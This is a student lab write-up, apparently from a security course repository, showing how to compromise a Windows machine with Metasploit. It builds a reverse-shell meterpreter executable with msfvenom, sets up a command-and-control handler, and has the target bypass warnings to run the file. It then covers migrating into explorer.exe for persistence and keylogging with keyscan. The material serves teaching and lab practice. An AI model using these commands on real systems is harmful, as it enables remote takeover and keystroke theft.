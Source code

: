 
# Experiment-06-Compromising windows using Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![s](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/d9b9e488-6580-4969-a3d2-5061443c0ed1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![1](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/12b58fda-5cec-4e47-872b-b838ef920d46)




copy the fun.exe into the apache /var/www/html folder
![2](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/37d7e507-5d47-4ddb-ba93-586f6d73a51b)


Start apache server
sudo systemctl apache2 start

![3](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/0d0224f9-d80c-42b9-a3ab-09b48da66a27)



Check the status of apache2
![4](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/77516604-9c4f-4317-a188-c41de4625542)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![6](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/938f78c9-0e8a-42ef-847c-a7cee7393beb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![ss](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/b2d36ca1-64a2-4863-a648-4ef4a8727dd9)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully.
